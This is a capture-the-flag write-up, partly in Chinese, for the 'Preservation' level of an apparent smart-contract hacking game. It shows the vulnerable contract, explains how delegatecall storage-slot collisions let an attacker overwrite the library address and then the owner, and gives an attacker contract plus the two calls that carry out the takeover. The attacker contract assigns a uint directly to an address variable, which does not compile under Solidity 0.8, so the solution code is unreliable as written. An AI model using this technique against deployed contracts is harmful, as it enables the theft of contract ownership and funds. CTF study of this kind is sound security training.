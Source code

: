 # **Level 16 -- Preservation**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
`````` 
---
## ***Objectives***
* get the owner of the `preservation` contract
---
## ***Thought Process***
首先观察`preservation`合约,其中的数据存储结构总共占用了4个slot
``` solidity
    address public timeZone1Library;    // slot 0
    address public timeZone2Library;    // slot 1
    address public owner;               // slot 2
    uint storedTime;                    // slot 3
```
在构造函数中初始化了两个`timeZoneLibrary`的地址和owner, 此外还有两个方法`setFirstTime`和`setSecondTime`, 都是用了delegatecall去调用`LibraryContract`名为`setTime`的方法.

在`LibraryContract`中仅有`storedTime`一个参数，占用了slot 0.

`delegatecall`是一种低级函数调用，当合约A用`delegatecall`调用合约B的方法时，表示允许合约B修改A的对应存储，因此当调用`LibraryContract`中`setTime`时，B修改了A中的slot0，也就是`timeZone1Library`

综上所述，我们可以写一个修改了内容`setTime`恶意合约，把合约地址存储到slot0中，再调用`setFirstTime`调用恶意合约修改掉owner。


---
## ***Solution***
1.写一个恶意合约 然后部署
``` solidity
contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
 
  // set the time for timezone 1
  function setTime(uint _timeStamp) public {
        owner = _timeStamp;
  }

}
```
2. > await contract.setSecondTime(contractAddress)
3. > await contract.setFirstTime(owner.address)



